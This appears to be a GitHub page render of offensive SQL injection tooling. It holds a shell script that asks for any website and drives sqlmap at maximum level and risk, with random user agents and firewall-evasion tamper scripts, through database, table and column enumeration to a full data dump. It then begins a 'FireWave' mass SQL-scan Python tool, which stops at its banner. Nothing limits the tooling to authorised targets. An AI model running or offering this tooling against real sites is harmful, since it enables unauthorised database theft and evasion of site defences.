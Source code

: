 ```
"

echo
echo -n "[+] Website: " && read site
echo

python2 sqlmap.py -u $site --threads=10 --level=3 --risk=3 --random-agent --is-dba --current-db --tamper=charencode,space2comment,between,modsecurityzeroversioned --dbs --batch
echo
echo -n "[+] DB: " && read db
echo
		
python2 sqlmap.py -u $site --threads=10 --level=3 --risk=3 --random-agent --is-dba --current-db --tamper=between,modsecurityzeroversioned  -D $db --tables
																		 
echo
echo -n "[+] Table: " && read tb
echo

python2 sqlmap.py -u $site --threads=10 --level=3 --risk=3 --random-agent --is-dba --current-db --tamper=between,modsecurityzeroversioned --batch -D $db -T $tb --columns

echo
echo -n "[+] Column: " && read cl
echo

python2 sqlmap.py -u $site --threads=10 --level=3 --risk=3 --random-agent --is-dba --current-db --tamper=between,modsecurityzeroversioned --batch -D $db -T $tb -C $cl --dump

```
#### FireWave-Mass-Sql-Scan

usage: python FireWave.py domains.txt

Required: requests and colorama

install: pip install requests

install: pip install colorama

```
# coding: utf-8

import sys
import os



os.system("clear||cls")

try:
        import requests
except:
        print ("install requests: pip install requests")
	      						
try:
        from colorama import *

except:
        print ("install colorama: pip install colorama")
				  
print (Style.BRIGHT + Fore.CYAN + '''
 /$$$$$$$$ /$$                     /$$      /$$
| $$_____/|__/                    | $$  /$ | $$
| $$       /$$  /$$$$$$   /$$$$$$ | $$ /$$$| $$  /$$$$$$  /$$    /$$ /$$$$$$
```